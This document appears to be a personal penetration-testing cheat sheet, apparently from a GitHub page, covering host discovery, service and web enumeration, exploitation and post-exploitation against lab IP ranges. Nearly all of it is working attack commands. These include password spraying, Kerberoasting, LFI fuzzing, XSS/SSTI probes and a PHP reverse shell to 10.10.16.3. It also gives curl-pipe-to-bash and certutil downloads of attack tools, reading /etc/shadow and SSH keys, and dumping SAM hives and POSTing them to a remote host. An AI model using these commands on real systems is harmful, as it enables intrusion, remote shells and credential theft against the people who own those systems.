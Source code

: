 
My Methodology


<details>
    <summary>Host Discovery (External)</summary>
    
    fping -ag 10.10.110.0/24 2>/dev/null | tee external-ips ; \
    for ip in $(cat external-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
</details>

<details>
    <summary>Host Discovery (Internal)</summary>
    
    fping -ag 172.16.1.0/24 2>/dev/null | tee internal-ips ; \
    for ip in $(cat internal-ips); do nmap=$(nmap -p- --max-retries 1 --min-rate 10000 --open "$ip" | grep -vE 'Warning:|filtered|latency|Starting'); echo "$nmap"; ports=$(echo "$nmap" | sed -n 's|/.*||p' | paste -sd ','); echo "nmap -sC -sV -Pn -p$ports $ip"; echo; done
</details>

Service Enumeration
━━━━━━━━━━━━━━━━━━━━━━━━━
nmap -Pn -sC -sV 172.16.1.10 -p22,80,139,445
ldap=$(nmap --script "ldap* and not brute" -p 389 172.16.1.10); echo "$ldap"
nxc ftp 172.16.1.10 --port 21 -u 'anonymous' -p 'anonymous' --ls
nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --rid-brute 10000
nxc smb 172.16.1.10 --port 445 -u usernames -p passwords --shares
mysql -h 172.16.1.10 -u root@localhost -e 'show databases;'
impacket-GetNPUsers -usersfile usernames domain/ -dc-ip 172.16.1.10
impacket-GetUserSPNs -request-user "$objuser" -dc-ip 172.16.1.10 domain/username:password
impacket-GetUserSPNs -no-preauth "$user" -usersfile usernames -dc-host 172.16.1.10 domain/
impacket-GetUserSPNs -request -dc-ip 172.16.1.10 domain/username:password

for x in $(showmount -e 172.16.1.10 | awk '{print $1}' | grep -v 'Export')
    do mkdir -p "/dev/shm"/mnt"$x"
    sudo mount -t nfs 172.16.1.10:"$x" "/dev/shm"/mnt"$x" -o nolock
    tree -puga "/dev/shm"/mnt"$x"
done


Web Enumeration
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Technology Discovery
whatweb http://10.10.110.100

[*] WordPress Discovery
wpscan --url http://10.10.110.100/wordpress --enumerate

[*] Directory Discovery
ffuf -u 'http://10.10.110.100/FUZZ' -t 400 -rate 10000 -e .php -v -recursion -mc 200,301 \
-w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
2>/dev/null | grep -oP '(http.*)(?<!/)$'

[*] Directory Traversal
ffuf -u 'http://10.10.110.100/nav.php?page=FUZZ' -t 400 -rate 10000 -v -mc 200 \
-w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
2>/dev/null | grep -oP '(http.*)(?<!/)$'

[*] XSS + SSTI
<img src=x>'"${{7*7}}

[*] Subdomain Discovery
gobuster vhost --append-domain -u example.com -k -r -t200 -q \
-w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
| grep -oP '(?<=Found: )[^ ]+'


Exploitation
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Reverse Shells
<?php
$lhost = "10.10.16.3";
$lport = 4444;

exec("bash -c 'bash -i >& /dev/tcp/$lhost/$lport 0>&1'");
$sock = fsockopen($lhost, $lport);
if ($sock) {
    exec("sh <&3 >&3 2>&3");
}
?>

[*] Upgrade TTY
python3 -c 'import pty; pty.spawn("/bin/bash")';
CTRL-Z
stty size;stty raw -echo;fg
export SHELL=bash;
export TERM=xterm-256color;
stty rows <num> columns <num>
reset


Post Exploitation
━━━━━━━━━━━━━━━━━━━━━━━━━
[*] Linux
ssh user@xxxxxxxxx -i id_rsa -L 33060:localhost:33060
netstat -tuln
ls -la /opt
sudo -l
find / -perm /4000 2>/dev/null
grep -r -E 'conf' /var/www
cat ~/.ssh/id_rsa
cat /etc/shadow
curl xxxxxxxxxx:8088/linpeas.sh | bash
GTFO bins

[*] Windows
evil-winrm -i xxxxxxxxxx -u 'username' -p 'password'
evil-winrm -i xxxxxxxxxx -u 'username' -H 'hash'
cd C:\users
tree /f
powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/winpeas.exe C:\programdata\winpeas.exe"
powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/nc.exe C:\programdata\nc.exe"

click.url
[InternetShortcut]
URL=C:\programdata\shell.bat

meterpreter > use priv
meterpreter > getsystem

nxc winrm xxxxxxxxxx -u 'username' -p 'password' -x \
'
powershell -c rm *.SAV
powershell -c reg save HKLM\SYSTEM SYSTEM.SAV
powershell -c reg save HKLM\SAM SAM.SAV
powershell -c compress-archive *.SAV SAM.zip
powershell -c dir
iwr http://xxxxxxxxxx:xxxx -Method POST -InFile SAM.zip
'; unzip -o SAM.zip; \
impacket-secretsdump LOCAL -sam SAM.SAV -system SYSTEM.SAV

powershell -c "certutil -urlcache -f http://xxxxxxxxxx:8088/powerview.ps1 C:\programdata\powerview.ps1"
powershell Import-Module C:\programdata\powerview.ps1
Get-NetDomain
Get-LocalUser
Set-DomainObject -Identity USERNAME -SET @{serviceprincipalname='SET/SET'}; Get-DomainSPNTicket -spn SET/SET
bloodhound-python -c all -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
bloodhound-python -c default -u 'username' -p 'password' -d "$domain" -dc "$dc" -ns "$target"
